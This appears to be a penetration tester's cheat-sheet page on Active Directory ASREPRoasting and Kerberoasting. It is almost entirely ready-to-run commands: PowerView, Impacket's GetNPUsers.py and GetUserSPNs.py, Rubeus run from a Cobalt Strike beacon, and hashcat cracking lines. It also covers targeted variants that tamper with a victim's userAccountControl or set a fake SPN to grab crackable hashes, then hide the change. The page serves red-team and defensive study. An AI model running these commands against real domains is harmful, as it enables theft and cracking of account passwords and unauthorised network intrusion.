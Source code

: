 # Roasting




## ASREPRoasting

Show domain users with `DONT_REQ_PREAUTH` flag set:

```
PowerView3 > Get-DomainUser -UACFilter DONT_REQ_PREAUTH
```



### Normal


#### GetNPUsers.py

* [https://vbscrub.com/2020/02/22/impackets-getnpusers-script-explained/](https://vbscrub.com/2020/02/22/impackets-getnpusers-script-explained/)

```
$ GetNPUsers.py megacorp.local/ -dc-ip 127.0.0.1 -no-pass -usersfile /usr/share/seclists/Usernames/Names/names.txt -request -format hashcat -outputfile asrep.in | tee GetNPUsers.out
$ cat GetNPUsers.out | grep -v 'Client not found in Kerberos database'
$ hashcat -m 18200 -O -a 0 -w 4 --session=asreproast -o asrep.out asrep.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```


#### ASREPRoast.ps1

* [https://github.com/HarmJ0y/ASREPRoast](https://github.com/HarmJ0y/ASREPRoast)

```
PS > Get-ASREPHash -Domain megacorp.local -UserName snovvcrash
```


#### Rubeus

```
beacon> execute-assembly ADSearch.exe --search "(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname
beacon> execute-assembly Rubeus.exe asreproast /nowrap [/user:svc_mssql]
```



### Targeted

* [https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#asreproast](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#asreproast)

> "Given GenericWrite/GenericAll DACL rights over a target, we can modify most of the user's attributes. We can change a victim's userAccountControl to not require Kerberos preauthentication, grab the user's crackable AS-REP, and then change the setting back." (@harmj0y, [ref](https://www.harmj0y.net/blog/activedirectory/targeted-kerberoasting/))

```
PowerView3 > Get-DomainUser snovvcrash | ConvertFrom-UACValue
PowerView3 > Set-DomainObject -Identity snovvcrash -XOR @{useraccountcontrol=4194304} -Verbose
PowerView3 > Get-DomainUser snovvcrash | ConvertFrom-UACValue
ASREPRoast > Get-ASREPHash -Domain megacorp.local -UserName snovvcrash
PowerView3 > Set-DomainObject -Identity snovvcrash -XOR @{useraccountcontrol=4194304} -Verbose
PowerView3 > Get-DomainUser snovvcrash | ConvertFrom-UACValue
```




## Kerberoasting

* [http://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/](http://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/)
* [https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/](https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)
* [https://github.com/GhostPack/Rubeus#kerberoast](https://github.com/GhostPack/Rubeus#kerberoast)
* [https://docs.microsoft.com/ru-ru/archive/blogs/openspecification/windows-configurations-for-kerberos-supported-encryption-type](https://docs.microsoft.com/ru-ru/archive/blogs/openspecification/windows-configurations-for-kerberos-supported-encryption-type)
* [https://swarm.ptsecurity.com/kerberoasting-without-spns/](https://swarm.ptsecurity.com/kerberoasting-without-spns/)
* [https://twitter.com/\_wald0/status/1361720293539139589](https://twitter.com/_wald0/status/1361720293539139589)
* [https://habr.com/ru/post/650889/](https://habr.com/ru/post/650889/)

Check `msDS-SupportedEncryptionTypes` attribute (if RC4 is enabled):

```
PowerView3 > Get-DomainUser -Identity snovvcrash -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```



### Normal


#### GetUserSPNs.py

```
$ GetUserSPNs.py megacorp.local/snovvcrash:'Passw0rd!' -dc-ip 127.0.0.1 [-request|-save]
$ hashcat -m 13100 -O -a 0 -w 4 --session=kerberoast -o tgsrep.out tgsrep.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```


#### PowerView

* [https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1#L2777)

```
PowerView3 > Invoke-Kerberoast -OutputFormat Hashcat | fl
```


#### Rubeus

* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

```
beacon> execute-assembly ADSearch.exe --search "(&(sAMAccountType=805306368)(servicePrincipalName=*))"
beacon> execute-assembly Rubeus.exe kerberoast /format:hashcat /nowrap [/user:svc_mssql]
```



### Targeted

> "We can execute 'normal' Kerberoasting instead: given modification rights on a target, we can change the user's serviceprincipalname to any SPN we want (even something fake), Kerberoast the service ticket, and then repair the serviceprincipalname value." (@harmj0y, [ref](https://www.harmj0y.net/blog/activedirectory/targeted-kerberoasting/))

```
PowerView3 > Get-DomainUser snovvcrash | select serviceprincipalname
PowerView3 > Set-DomainObject -Identity snovvcrash -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
PowerView3 > $User = Get-DomainUser snovvcrash 
PowerView3 > $User | Get-DomainSPNTicket | fl
PowerView3 > $User | select serviceprincipalname
PowerView3 > Set-DomainObject -Identity snovvcrash -Clear serviceprincipalname
```



### Downgrading Encryption Type (RC4)

- [https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1](https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1)
- [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberoasting-requesting-rc4-encrypted-tgs-when-aes-is-enabled](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberoasting-requesting-rc4-encrypted-tgs-when-aes-is-enabled)
- [https://vbscrub.com/tag/kerberos/](https://vbscrub.com/tag/kerberos/)
